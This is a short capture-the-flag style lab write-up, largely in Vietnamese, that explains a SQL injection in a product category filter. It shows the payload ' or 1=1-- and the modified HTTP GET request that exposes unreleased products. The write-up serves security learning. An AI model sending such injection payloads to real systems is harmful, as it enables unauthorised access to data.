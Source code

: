 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

# 1: Vulnerable

Hint:
- This lab contains a `SQL injection` vulnerability in the `product category filter`. When the user selects a category, the application carries out a `SQL query` like the following:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
- To solve the lab, perform a `SQL injection` attack that causes the application to display one or more unreleased products.

Ở đây ta nhận được `SQL query form` với cách lấy 1 trường trong `category` là `Gifts` và `released` = 1

Nhìn trên url thì đúng là nó sẽ lấy tên của 1 danh mục sản phẩm rồi hiện thông tin lên cho ta xem

[web.png](images/web.png)

# 1: Vulnerable

Vậy nếu ta sử dụng câu lệnh or thì sao nhỉ

Ta thêm vào `' or 1=1--` thì câu lệnh SQL sẽ như sau:

```
SELECT * FROM products WHERE category = 'Gifts' or 1=1--' AND released = 1
```

Sau khi thêm vào thì ta sẽ có câu lệnh logic đó là: lấy tất cả giá trị từ `products` nếu `category = 'Gifts'` hoặc `1=1`. Còn dấu `--` phía sau sẽ loại bỏ đi các câu lệnh phía sau nó

Do ở đây 1=1 luôn đúng nên ta sẽ nhận được mọi giá trị từ trường `products`

Ok vậy ta sẽ sửa ở phần GET trong `burpsuite` 

```
GET /filter?category=Gifts'+or+1=1-- HTTP/2
```

Và trang web đã hiện lên tất cả những sản phẩm có trong `products`

[solved.png](images/solved.png)

